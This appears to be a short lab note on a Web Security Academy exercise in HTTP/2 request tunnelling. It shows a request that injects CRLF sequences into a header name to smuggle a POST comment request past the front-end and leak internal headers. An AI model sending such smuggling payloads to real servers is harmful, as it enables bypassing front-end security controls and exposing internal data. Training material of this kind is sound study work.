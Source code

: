![|500](../../zzz_res/attachments/http-req-tunneling.png)
```http
:scheme: https
:method: GET
:path: /
:authority: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net
cookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV
foo: bar\r\n
\r\n
POST /post/comment HTTP/1.1\r\n
Host: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net\r\n
Cookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV\r\n
Content-Length: 245\r\n
Content-Type: application/x-www-form-urlencoded\r\n
\r\n
csrf=PGNtG2ry88mKd8tugKUGR1Dx3r589X6u&postId=2&name=foo&email=foo%40bar.lol&website=&comment=: a
```

The front-end sees **everything we've injected as part of a header-name**, so adds any new headers after the trailing `a` string. 
```http
GET / HTTP/1.1
Host: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net
Cookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV
Foo: Bar\r\n\r\nPOST /post/comment HTTP/1.1\r\nHost: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net\r\nCookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV\r\nContent-Length: 245\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\ncsrf=PGNtG2ry88mKd8tugKUGR1Dx3r589X6u&postId=2&name=foo&email=foo%40bar.lol&website=&comment=: a-- INTERNAL HEADERS HERE --
```
